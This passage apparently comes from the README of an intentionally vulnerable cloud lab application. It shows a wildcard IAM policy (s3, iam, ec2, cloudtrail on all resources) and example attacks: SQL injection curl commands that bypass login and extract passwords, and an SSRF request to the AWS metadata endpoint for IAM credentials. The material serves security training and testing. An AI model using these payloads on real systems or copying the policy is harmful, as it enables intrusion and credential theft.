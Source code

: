 ### IAM Permissions

The application requires broad permissions for testing (use only in test accounts):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:*",
        "iam:*",
        "ec2:*",
        "logs:*",
        "cloudtrail:*"
      ],
      "Resource": "*"
    }
  ]
}
```

## =� Monitoring & Logs

### Application Logs
- Level: DEBUG (configurable)
- Format: Structured JSON
- Destination: CloudWatch Logs

### Security Events
All security-relevant actions are logged with appropriate severity:
- `CRITICAL`: Privilege escalation, resource creation
- `WARNING`: Suspicious activities, injection attempts
- `INFO`: Normal operations, successful authentications

## >� Example Attacks

### SQL Injection Test
```bash
# Bypass authentication
curl -X POST "http://localhost:8000/api/v1/users/login" \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\''--", "password": "anything"}'

# Data extraction
curl "http://localhost:8000/api/v1/users/search?q='\'' UNION SELECT username,password FROM users--"
```

### SSRF to Metadata Service
```bash
curl "http://localhost:8000/api/v1/exploit/ssrf?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```
